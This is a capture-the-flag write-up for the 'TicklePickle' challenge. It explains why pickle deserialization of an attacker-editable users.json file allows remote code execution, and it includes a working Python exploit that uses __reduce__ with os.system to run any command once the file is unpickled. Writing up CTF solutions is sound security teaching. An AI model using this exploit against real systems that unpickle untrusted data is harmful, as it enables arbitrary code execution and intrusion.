# Sainya Ranakshetram

### TicklePickle

Vulnerability: Pickle deserialization of arbitrary input

The challenge provides two files:

```py
server.py

import os
import pickle
def reverse_fun():
      with open("users.json","rb") as f:
          data = f.read()
      
      d = pickle.loads(data)
      return d

if __name__ == '__main__':
      print(reverse_fun())
```

```py
client.py

import os
import pickle
def fun(name,password):
    s = {"username":name,"password":password}
    safecode = pickle.dumps(s)
    with open("users.json","wb") as f:
        f.write(safecode)
    return safecode

if __name__ == '__main__':
    u = input("Username : ")
    p = input("Password : ")
    yo_fun = fun(u,p)
```

As can be seen, the `client.py` takes in whatever input is provided to it and serializes it to a pickle object and stores it in the `user.json` file.

The server reads this `user.json` file and performs pickle deserialization. An attacker can modify the file to make pickle deserialize arbitrary code which can lead to RCE (Remote Code Execution), and therefore reverse shells, on the server.

Here's an exploit:

```py
exploit.py

#!/usr/bin/env python3

import os
import pickle
import argparse

# Thanks https://davidhamann.de/2020/04/05/exploiting-python-pickle/
class Exploit:
    def __init__ (self, command):
        self.command = command

    def __reduce__ (self):
        return (os.system, (self.command, ), )

def exploit ():
    parser = argparse.ArgumentParser('Exploit for TicklePickle Sainya Ranakshetram CTF')
    parser.add_argument('--command', help = 'Command to execute by attacker on client\'s machine', required = True, type = str)

    args = parser.parse_args()

    with open('users.json', 'wb') as file:
        pickled = pickle.dumps(Exploit(args.command))
        file.write(pickled)

if __name__ == '__main__':
    exploit()
```

Thanks,
made by
Tushar Chopra